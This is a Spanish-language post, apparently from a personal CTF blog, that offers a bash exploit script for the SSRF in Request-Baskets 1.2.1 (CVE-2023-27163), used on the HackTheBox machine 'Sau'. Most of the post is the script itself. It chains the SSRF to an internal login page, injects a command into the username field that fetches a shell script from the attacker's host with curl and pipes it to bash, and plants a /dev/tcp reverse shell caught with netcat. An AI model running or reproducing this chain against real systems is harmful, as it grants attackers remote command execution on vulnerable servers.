 ```yaml
---

title: Request-Baskets 1.2.1
date: 2023-07-16 07:03 +0800
categories: [Scripts]
tags: [Scripts, HTB]
pin: true

---
```


# <font color="#c37437">Script</font>
Este script se uso para explotar un SSRF en la API de Request-Baskets en su versión 1.2.1. El script crea un archivo rev.sh  con la reverse shell y necesita los siguientes comandos:

  1. `python3 -m http.server 80` 
  2. `nc -nlvp [Port]`

-----------------------------------------------------------------------------------------------

```bash
#!/bin/bash

# Script para explotar un SSRF en la api de request-Baskets versión 1.2.1 usado para la máquina SAU de hackthebox
# POC - https://github.com/entr0pie/CVE-2023-27163
# CVE - https://nvd.nist.gov/vuln/detail/CVE-2023-27163

nameBasket=$(cat /dev/urandom | tr -dc 'a-zA-Z' | fold -w 7 | head -n 1)

echo "Antes de lanzar el script tenemos que crear un servidor HTTP y podenernos en escucha con 'NC'"
echo "\t python3 -m http.server 80"
echo "\t nc -nlvp [PortREV]"
echo "Intruduce la IP del servicio \"Request-baskets\""; read baseUrl # IP request-baskets
echo "Introduce tu IP para la revshell"; read local_IP # Nuestra IP para la revshell
echo "Introduce el PUERTO para la revshell"; read local_PORT # Puerto para la revshell

curl --location "http://$baseUrl:55555/api/baskets/$nameBasket" --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'

curl --location "http://$baseUrl:55555/api/baskets/$nameBasket" --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'

echo "bash -c 'bash -i >& /dev/tcp/$local_IP/$local_PORT 0>&1'" > rev.sh
curl "http://$baseUrl:55555/$nameBasket/login"  --data 'username=;`curl http://$local_IP/rev.sh | bash`'; rm rev.sh
```
